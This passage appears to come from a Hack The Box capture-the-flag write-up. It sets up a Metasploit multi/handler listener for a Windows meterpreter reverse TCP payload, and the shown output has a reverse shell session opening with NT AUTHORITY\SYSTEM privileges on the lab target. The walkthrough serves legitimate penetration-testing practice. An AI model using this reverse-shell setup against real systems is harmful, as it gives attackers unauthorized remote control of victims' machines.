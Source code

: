 ```bash
```

And, let's open a listener using `msfconsole`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfconsole
Metasploit tip: Use help <command> to learn more about any command

<SNIP>

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.14
LHOST => 10.10.14.14
msf6 exploit(multi/handler) > set LPORT 9000
LPORT => 9000
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:9000 
[*] Sending stage (201798 bytes) to 10.10.11.175
[*] Meterpreter session 1 opened (10.10.14.14:9000 -> 10.10.11.175:49482) at 2024-11-29 14:04:57 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

